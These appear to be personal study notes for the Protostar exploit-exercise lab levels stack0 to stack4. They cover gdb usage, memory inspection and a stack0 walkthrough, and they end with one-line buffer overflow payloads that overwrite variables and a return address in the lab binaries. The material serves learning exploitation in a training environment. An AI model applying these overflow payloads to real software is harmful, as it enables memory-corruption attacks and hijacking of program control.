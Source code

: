 gdb> info address <function-name>
  ^gets the address of the function

gdb> set disassembly-flavor intel
      ^if just using gdb without enhancement features


________________________________________________________________________
________________________________________________________________________



# Useful when Reading Memory
https://github.com/ickerwx/pattern/blob/master/pattern
^save this into a file name `pattern.py`

##Use case:
	$ python pattern.py create [#]
                                ^length of pattern

##See what ASCII looks like in hex
	$ echo <ascii-string> | hexdump -v

________________________________________________________________________
________________________________________________________________________

[Reference Stack 0-5]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6


# stack0: Overwrite Variable 
------------------------------------------------------------------------
[Simple]: python -c "print 'A' * 77" | ./stack0

[Detailed]: Step-by-Step
1. `chmod +x stack0`
2. `gdb stack0`
3. gdb> break main
4. gdb> run
5. Dump the whole main method into assembly
   gdb> u main 15
   gef> cs main 15
6. Observe this assembly line
    `mov   eax, dword ptr [rbp - 4]`
                               ^look at this
                               this is the location of the variabe
                               variable `modified`

   In a decompiler (Ghidra/Cutter), you'll see that this assembly line
   points to the line closest to `modified = 0;` in Ghidra it's `local_c = 0;`

7. pwndbg/gef> hexdump $rbp-4 4
                              ^look at 4 bytes since `int` is 4 bytesc

   should get something like:
   `+0000 0x7fffffffde3c  00  │.`
                          ^see that `modified` was initalized as 0


[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef
[My gdbinit]: $ cat ~/.gdbinit
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
[Simple]: Step-by-Step
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4
[Shellcode]: http://shell-storm.org/shellcode/